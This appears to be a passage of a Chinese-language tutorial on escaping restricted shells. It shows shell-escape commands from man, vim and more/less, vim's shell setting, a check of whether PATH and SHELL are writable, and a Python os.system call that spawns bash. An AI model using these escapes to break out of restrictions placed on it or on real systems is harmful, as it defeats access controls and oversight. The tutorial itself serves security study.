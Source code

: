 [![常见应用](https://image.3001.net/images/20181110/1541820907_5be651eb2e109.png!small)](https://image.3001.net/images/20181110/1541820907_5be651eb2e109.png)

man/git：

```bash
man > !/bin/sh
git > git help status
```

![常见应用](https://image.3001.net/images/20181110/1541820915_5be651f3694bf.png!small)![VIM](https://image.3001.net/images/20181110/1541820919_5be651f7cccaa.png!small)

vim：

```bash
!/bin/sh 或者 !/bin/bash
```

![VIM](https://image.3001.net/images/20181110/1541820924_5be651fcae8f6.png!small)

允许情况下：

![允许情况下](https://image.3001.net/images/20181110/1541820929_5be652013957a.png!small)

more/less

```bash
!'sh'
```

![more/less](https://image.3001.net/images/20181110/1541820936_5be65208ce705.png!small)![more/less](https://image.3001.net/images/20181110/1541820943_5be6520f69d1c.png!small)

### set shell

在一些编辑器或命令中我们还以为设置shell变量然后执行，比如vim中：

![set shell](https://image.3001.net/images/20181110/1541820955_5be6521b1eaec.png!small)![set shell](https://image.3001.net/images/20181110/1541820962_5be6522246cf0.png!small)

### 更改PATH或SHELL环境变量

输入命令

```
export -p
```

查看

![æ¥ç](https://image.3001.net/images/20181110/1541820968_5be65228e6fe6.png!small)

PATH和SHELL变量很可能是’-rx’，这意味着你只能执行不能写入，如果可写，你就可以直接写入/bin/bash。

### 编程语言

python：

```python
python -c 'import os; os.system("/bin/bash")'
```
